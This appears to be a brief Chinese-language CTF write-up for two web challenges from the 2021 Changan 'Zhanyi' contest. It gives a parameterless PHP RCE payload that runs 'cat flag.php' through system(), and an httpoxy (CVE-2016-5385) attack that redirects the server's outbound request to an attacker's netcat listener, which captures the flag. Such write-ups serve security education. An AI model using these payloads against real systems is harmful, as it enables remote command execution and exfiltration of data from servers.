

# 2021-长安“战疫”-Web-Writeup

## RCE_No_Para

无参数rce了，根据https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E6%B3%95%E4%B8%89%EF%BC%9Aget-defined-vars

操作数组的函数从PHP手册找就行了：



```
?1=cat flag.php&code=system(pos(pos(get_defined_vars())));
```

## FLAG配送中心

把PHP 5.6.23和fastcgi查一下就知道CVE-2016-5385，打一下就行

```
Proxy: http://121.5.169.223:39878/
```

```shell
root@VM-0-6-ubuntu:~# nc -lvvp 39878
Listening on [0.0.0.0] (family 0, port 39878)
Connection from 113.201.14.253 35092 received!
POST http://www.yunyansec.com/ HTTP/1.1
Proxy-Connection: Keep-Alive
User-Agent: GuzzleHttp/6.2.0 curl/7.38.0 PHP/5.6.23
Content-Type: application/x-www-form-urlencoded
Host: www.yunyansec.com
Content-Length: 40

YourFlag=cazy%7BWE_4r3_f4mily_for3vEr%7D^C
root@VM-0-6-ubuntu:~#

```

